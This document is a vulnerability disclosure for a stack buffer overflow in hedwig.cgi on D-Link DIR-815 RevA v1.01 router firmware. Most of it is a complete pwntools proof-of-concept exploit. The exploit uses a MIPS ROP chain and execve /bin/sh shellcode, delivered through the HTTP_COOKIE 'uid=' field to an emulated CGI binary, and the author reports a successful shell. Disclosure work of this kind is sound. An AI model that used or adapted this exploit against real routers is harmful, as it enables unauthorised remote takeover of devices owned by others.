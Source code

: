 # D-Link DIR-815 RevA v1.01 router has a buffer overflow vulnerability in hedwig.cgi

In the D-Link DIR-815 RevA router firmware version v1.01, the hedwig.cgi CGI program has a stack overflow vulnerability.

The attacker can use the stack overflow to hijack the program flow, main->hedwigcgi_main->cgibin_parse_request()->sub_403B10->sub_403794, and only need to post the parameters to successfully getshell

![image-20250612202813877](https://s2.loli.net/2025/06/12/ivAekQ7ouOLcMGq.png)

![image-20250612203244327](https://s2.loli.net/2025/06/12/Q7S5uoYCBhwfEbJ.png)

![image-20250612204211204](https://s2.loli.net/2025/06/12/eKqvxnpLmGsTgEb.png)

## POC

```
from pwn import*
context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.arch='mips'
context.os='linux'
context.log_level = 'debug'
def bug():
    gdb.attach(target=("127.0.0.1", 1234), exe="./htdocs/cgibin",
               gdbscript="""
               b *0x409680\n    
               c\n
               """)
    pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

libc_base = 0x7f738000#local
#libc_base = 0x77f34000 #remote
payload = b'a'*0x3cd
payload += b'a'*(4+0x18+12-2)
payload += p32(libc_base + 0x436D0) # s1  move $t9, $s3 (=> lw... => jalr $t9)
payload += b'abcd'
payload += p32(libc_base + 0x56BD0) # s3  sleep
payload += cyclic(20)#b'a'*(4*5)
payload += p32(libc_base + 0x57E50) # ra  li $a0, 1 (=> jalr $s1)
 
payload += b'a'*0x18
payload += b'a'*(4*4)
payload += p32(libc_base + 0x37E6C) # s4  move  $t9, $a1 (=> jalr $t9)
payload += p32(libc_base + 0x3B974) # ra  addiu $a1, $sp, 0x18 (=> jalr $s4)
 
shellcode = asm('''
    slti $a2, $zero, -1
    li $t7, 0x69622f2f
    sw $t7, -12($sp)
    li $t6, 0x68732f6e
    sw $t6, -8($sp)
    sw $zero, -4($sp)
    la $a0, -12($sp)
    slti $a1, $zero, -1
    li $v0, 4011
    syscall 0x40404
''')
payload += b'a'*0x18
payload += shellcode


payload = b"uid=" + payload
post_content = "Thir0th=Pwner"
p = process(b"""
    qemu-mipsel -L ./ \
    -0 "hedwig.cgi" \
    -E REQUEST_METHOD="POST" \
    -E HTTP_COOKIE=\"""" + payload + b"""\" \
    -g 1234 ./htdocs/cgibin
""", shell = True)

#bug()
p.send(post_content)
inter()	

```

Final result: Successful getshell

![image-20250612203559851](https://s2.loli.net/2025/06/12/3l6hSnRvu5MUtOB.png)